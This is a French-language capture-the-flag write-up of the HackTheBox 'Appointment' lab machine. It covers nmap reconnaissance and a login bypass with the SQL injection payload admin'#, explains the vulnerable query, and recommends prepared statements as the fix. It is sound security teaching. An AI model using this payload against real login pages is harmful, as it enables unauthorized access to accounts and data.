



# Introduction

On monte d'un niveau : bienvenue au **Tier 1** du programme **Starting Point**. Jusqu'ici, on a surtout exploité des services mal configurés. Avec **Appointment**, on change d'approche — on va s'attaquer à la **logique du code**. On découvre l'une des failles les plus célèbres du web : l'**Injection SQL**.

:::warning
Dans ce writeup, je ne publie pas directement le flag final, l'objectif est d'apprendre en pratiquant.
:::

:::caution
N'attaquez que des machines sur lesquelles vous avez l'autorisation. Respectez les règles de la plateforme.
:::

[▶ RavenBreach sur YouTube](https://www.youtube.com/@Raven_Breach/videos)

---

## Reconnaissance

### Découverte d'hôte

```bash
┌─[ravenbreach@htb]─[~]
└──╼ $ ping 10.129.8.127

64 bytes from 10.129.8.127: icmp_seq=1 ttl=63 time=8.33 ms
```

### Énumération des services

```bash
┌─[ravenbreach@htb]─[~]
└──╼ $ nmap -sC -sV 10.129.8.127

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: Login
```

Le seul port ouvert est le **80**. La page par défaut est une page de **Login**.

---

## Analyse et Pré-Exploitation

### Le mur du Login

En arrivant sur `http://10.129.8.127`, on tombe sur un formulaire classique.



On tente d'abord les identifiants par défaut (admin:admin, root:root, etc.) — rien ne fonctionne. Il est temps de passer à l'offensive logique.

---

## Exploitation

### La faille : Injection SQL

L'application est probablement codée en **PHP** et utilise une base de données **SQL** pour vérifier les identifiants. Hypothèse de la requête SQL :

```sql
SELECT * FROM users WHERE username = '$username' AND password = '$password';
```

Si le développeur n'a pas "nettoyé" les inputs, on peut manipuler la requête.

### Le payload

On utilise l'apostrophe `'` qui, en SQL, délimite les chaînes de caractères. Si on en ajoute une, on "casse" la structure de la commande.

Dans le champ Username, on entre :

```
admin'#
```

La requête SQL devient :

```sql
SELECT * FROM users WHERE username = 'admin'#' AND password = 'a';
```

- `admin'` : on ferme la chaîne de caractère
- `#` : symbole de **commentaire** en SQL — tout ce qui suit est ignoré, y compris la vérification du mot de passe

### Execution



- Rendez-vous sur la page de login
- Username : `admin'#`
- Password : n'importe quoi (ex: `a`)
- Appuyez sur **Login**



La session s'ouvre ! La machine est **pwned** !

---

## Post-Exploitation

Cette machine illustre la vulnérabilité **SQL Injection** (SQLi). C'est une erreur critique car elle permet de contourner totalement l'authentification sans même connaître le mot de passe.

**Protection** : en tant que développeur, utiliser des **requêtes préparées** (Prepared Statements). Le serveur sait alors faire la différence entre une commande SQL et une donnée envoyée par l'utilisateur.
